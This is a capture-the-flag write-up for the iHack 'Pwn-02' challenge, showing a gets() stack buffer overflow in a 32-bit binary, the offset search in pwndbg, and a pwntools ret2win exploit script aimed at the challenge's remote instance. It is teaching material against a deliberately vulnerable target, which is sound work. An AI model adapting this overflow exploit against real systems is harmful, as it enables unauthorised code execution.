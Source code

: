 # Pwn-02

**Flag Format:** `ihack{MD5}`

**Remote Instance:** `nc pwn2.ihack.sibersiaga.my 1389`

Perform basic file checks regarding the architecture of the given binary. It is `32-bit`, `LSB`, `statically linked` & `not stripped`. 

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-02]
└─$ file chal_      
chal_: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=5358fac57714ea7cb10bc80150f5e24a113a6bf9, for GNU/Linux 3.2.0, not stripped
```

Perform binary protection checks to get an overall idea on where to start tackling the challenge. `NX enabled` indicating that shellcode injection may not be the intended solution.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-02]
└─$ checksec --file=chal_             
[*] '/home/kali/Desktop/iHack/pwn/pwn-02/chal_'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

The binary to vulnerable to a Buffer Overflow attack due to the use of deprecated `gets` in the `echo` function. By exploiting this vulnerability, we can overwrite the return address to any function that we control.

```
void echo(void)

{
  char local_20 [24];
  
  putchar(10);
  puts("Hello There! Im echo bot =) I can say anything you want me to say ");
  putchar(10);
  puts("Enter some text:");
  fflush((FILE *)stdout);
  fflush((FILE *)stdin);
  gets(local_20);
  printf("You entered: %s\n",local_20);
  return;
}
```

There is also another function `ZmxhZ2hlcmUh` that prints out the flag on the remote instance. Since `PIE` is disabled, we can grab the address of this function in `Ghidra`, which is `0804988b`.

```
void ZmxhZ2hlcmUh(void)

{
  puts("Congratulations! Here is your flag!");
  system("cat flag.txt");
  return;
}
```

To find the buffer limit, we can use the `cyclic` module from `pwntools`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-02]
└─$ cyclic 80            
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
```

```
pwndbg> run
Starting program: /home/kali/Desktop/iHack/pwn/pwn-02/chal_ 
 _______ _______ _______ _______ _______ _______ _______ _______ _______ 
|     /|     /|     /|     /|     /|     /|     /|     /|     /|
| +---+ | +---+ | +---+ | +---+ | +---+ | +---+ | +---+ | +---+ | +---+ |
| |   | | |   | | |   | | |   | | |   | | |   | | |   | | |   | | |   | |
| |I  | | |h  | | |a  | | |c  | | |k  | | |2  | | |0  | | |2  | | |2  | |
|/      |/      |/     |/     |/     |/     |/     |/     |/     |
 _______ _______ _______ _______ _______ _______ _______ _______ _______|
 
Hello There! Im echo bot =) I can say anything you want me to say 

Enter some text:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
You entered: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa

Program received signal SIGSEGV, Segmentation fault.
0x61616169 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────────────────────────────────────────────────
 EAX  0x5e
 EBX  0x61616167 ('gaaa')
 ECX  0x0
 EDX  0x0
 EDI  0x1
 ESI  0x80f1000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
 EBP  0x61616168 ('haaa')
 ESP  0xffffd030 ◂— 'jaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa'
 EIP  0x61616169 ('iaaa')
 
pwndbg> cyclic -l iaaa
32
```

We can automate the process using `pwntools` as follows:

```
#!/usr/bin/env python3
from pwn import *

elf = ELF('./chal_')
rop = ROP(elf)

p = remote('pwn2.ihack.sibersiaga.my', 1389)

def exploit():

    padding = b'A'*32
    ret = (rop.find_gadget(['ret']))[0]
    flag = elf.symbols['ZmxhZ2hlcmUh']

    payload = padding
    payload += p32(ret)
    payload += p32(flag)

    print(p.recvuntil(b':\n'))

    print(payload)
    p.sendline(payload)

    print(p.recvall())

def main():
  exploit()

if __name__ == "__main__":
  main()
```

**Flag:** `ihack{}`